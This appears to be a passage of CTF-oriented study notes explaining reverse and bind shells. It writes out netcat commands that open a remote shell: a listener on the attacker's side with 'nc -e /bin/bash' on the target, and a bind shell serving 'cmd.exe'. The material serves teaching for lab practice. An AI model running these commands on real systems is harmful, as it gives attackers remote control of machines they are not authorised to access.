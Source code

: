
_Reverse Shell example:_  

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.  

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

`sudo nc -lvnp 443`  

On the target:

`nc <LOCAL-IP> <PORT> -e /bin/bash`

![](./img/Pasted%20image%2020230904115554.png)

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are _listening_ on our own attacking machine, and sending a connection _from_ the target.  

_Bind Shell example:_

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

`nc -lvnp <port> -e "cmd.exe"`  

On the attacking machine:

`nc MACHINE_IP <port>`

![](./img/Pasted%20image%2020230904115614.png)

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are _listening_ on the target, then connecting to it with our own machine.  

---

The final concept which is relevant in this task is that of interactivity. Shells can be either _interactive_ or _non-interactive_.
